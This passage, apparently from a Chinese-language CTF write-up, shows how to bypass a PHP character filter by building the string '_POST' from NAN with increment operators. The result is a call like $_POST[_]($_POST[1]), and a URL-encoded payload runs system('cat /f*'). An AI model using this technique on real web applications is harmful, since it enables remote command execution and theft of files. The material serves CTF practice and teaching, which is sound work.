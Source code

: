 放出了`0`,`1`，限制了payload的长度，缩短一下上面的构造


```php
$_=((_/_)._)[0]; //同上，取NAN的第一个字母N
$_++; //O
$__=$_.$_++; //这里进行了++的，所以$_等于P, $__=PO
$_++; // Q
$_++; // R
$_++; // S
$_=_.$__.$_.++$_; //这里也进行了++的，所以最后一位是T, $_ = _POST
$$_[_]($$_[1]); // $_POST[_]($_POST[1]);
```

payload

```php
ctf_show=%24_%3D((_%2F_)._)%5B0%5D%3B%24_%2B%2B%3B%24__%3D%24_.%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%3D_.%24__.%24_.%2B%2B%24_%3B%24%24_%5B_%5D(%24%24_%5B1%5D)%3B&_=system&1=cat /f*
```

![3](/medias/show-rce/3.png)
